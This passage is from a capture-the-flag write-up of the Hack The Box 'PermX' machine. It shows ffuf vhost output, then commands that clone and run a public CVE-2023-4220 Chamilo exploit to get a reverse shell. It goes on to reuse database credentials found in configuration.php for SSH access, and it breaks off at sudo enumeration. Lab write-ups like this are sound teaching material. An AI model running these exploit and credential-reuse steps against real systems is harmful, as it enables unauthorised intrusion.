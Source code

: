 ```bash
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 1242ms]
:: Progress: [114441/114441] :: Job [1/1] :: 10 req/sec :: Duration: [0:10:07] :: Errors: 114440 ::
```

We got `lms` as a vhost. Let's add it to our hosts file.

Navigating to `lms.permx.htb`, we see a web page powered by Chamilo

{{<figure src="/img/htb/permx/lms_page.png" position=center caption="lms.permx.htb powered by Chamilo">}}

After some research, we see that it is vulnerable to [CVE-2023-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220) which is an arbitrary file upload allowing any unauthenticated user to achieve RCE by uploading a PHP webshell to the site. This can be exploited with [this POC](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc).

```bash
# Installation / Setup
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc.git
cd chamilo-lms-unauthenticated-big-upload-rce-poc/
pip install -r requirements.txt

# Exploitation (setup netcat listener before)
python3 main.py -u http://lms.permx.htb -a revshell
```

After running the script, we receive a shell on our netcat listener:

{{<figure src="/img/htb/permx/foothold_shell.png" position=center caption="Reverse shell">}}

## Privilege Escalation

### www-data -> mtz

Looking around the different files on the server, we notice some interesting ones in `/var/www/chamilo/app/config`, espacially `configuration.php` containing some database credentials:

{{<figure src="/img/htb/permx/db_creds.png" position=center caption="">}}

Under the `/home` directory we can find another user `mtz`. Let's try the password we found with this user:

```bash
ssh mtz@permx.htb
```

We successfully logged in and can now retrieve the user flag:

{{<figure src="/img/htb/permx/user_flag.png" position=center caption="User flag obtained !">}}

### mtz -> root

Enumerating our sudo privileges as `mtz`, we can see that we can run `/opt/acl.sh` as root:
